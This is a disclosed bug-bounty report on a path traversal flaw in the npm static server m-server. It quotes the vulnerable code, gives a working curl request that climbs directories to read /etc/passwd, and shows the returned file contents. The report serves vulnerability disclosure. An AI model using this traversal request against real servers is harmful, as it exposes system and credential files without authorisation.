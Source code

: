 # [m-server] Path Traversal allows to display content of arbitrary file(s) from the server

## Report Details
- **Report ID**: 319795
- **URL**: https://hackerone.com/reports/319795
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-26T14:13:50.358Z
- **Disclosed**: 2018-07-12T08:41:18.156Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path Traversal in ```m-server``` module.
It allows to read content of any arbitrary file from the server where ```m-server``` is installed and run.

## Module

**module name:** m-server
**version:** 1.4.0
**npm page:** https://www.npmjs.com/package/m-server

### Module Description

M-Server is a mini http static server that without any dependencies;

### Module Stats

Stats
6 downloads in the last day
68 downloads in the last week
180 downloads in the last month

~2200 estimated downloads per year

## Vulnerability Description

Path Traversal vulnerability in m-server module allows to go up in directory tree and read content of any file, like ```/etc/passwd```

Vulnerability exists, because ```m-server``` does not implement any protection against Path Traversal attacks and use provided path as-is:

```javascript
// node_modules/m-server/lib/index.js, line 10

    var targetPath = path.join(rootPath, req.url);
    if (fs.existsSync(targetPath)) {
        var targetType = fs.lstatSync(targetPath);
        if (targetType.isFile()) {
            res.end(fs.readFileSync(targetPath))   // <-- vulnerable code
        } else if (targetType.isDirectory()) {
            
            (...)

    } else {
        res.writeHead(404, {'Content-Type': 'text/plain'});
        res.end('not found');
    }
```


## Steps To Reproduce:

Install ```m-server``` module:

```
$ npm install m-server
```

Run ```m-server```:

```
$ ./node_modules/m-server/index.js -p 8080
-------------------------------------------------------------
	Mini http server running on port 8080 !
	You can open the floowing urls to view files.
	127.0.0.1:8080
	10.235.1.22:8080
	10.235.4.26:8080
	Have fun ^_^
-------------------------------------------------------------

```

Run following curl command to retrieve content of ```/etc/passwd``` (adjust amount of ../ to reflect your system):

```
$ curl -v --path-as-is http://localhost:8080/../../../../../../etc/passwd
*   Trying ::1...
* Connected to localhost (::1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Mon, 26 Feb 2018 13:38:37 GMT
< Connection: keep-alive
< Content-Length: 2615
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
(...)
mysql:x:125:132:MySQL Server,,,:/nonexistent:/bin/false
* Connection #0 to host localhost left intact
```

## Patch

```targetPath``` should be sanitized against Path Traversal attacks before it's used in ```res.end(fs.readFileSync(targetPath))```

## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.9.4
- npm v. 5.6.0
- curl 7.47.0

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

Malicious user is able to display content of any file from the server using eg. crafted ```curl``` request

## Attachments
No attachments
